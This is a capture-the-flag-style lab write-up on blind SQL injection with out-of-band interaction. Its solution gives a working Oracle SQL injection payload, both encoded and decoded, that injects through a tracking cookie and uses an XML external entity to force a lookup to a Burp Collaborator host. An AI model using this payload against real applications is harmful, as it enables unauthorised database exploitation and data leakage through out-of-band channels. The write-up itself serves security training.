

# Blind SQL injection with out-of-band interaction
# Objective
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.\
\
The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.\
\
To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator.

# Solution

||
|:--:| 
| *Modification of cookie value* |

Final payload:

```
Encoded: '+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//<id>.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--

Decoded: ' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://<id>.oastify.com/"> %remote;]>'),'/l') FROM dual--
```